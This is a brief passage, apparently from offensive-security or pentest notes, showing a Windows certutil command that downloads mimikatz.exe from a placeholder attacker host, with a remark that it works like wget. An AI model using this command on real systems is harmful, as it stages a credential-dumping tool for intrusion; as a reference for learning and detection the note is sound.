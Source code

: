 - __`certutil - urlcache -f http://<attacker>/mimikatz.exe mimikatz.exe`__
  - __Windows utilities can be used to download files from a remote web server, Same as wget in linux__
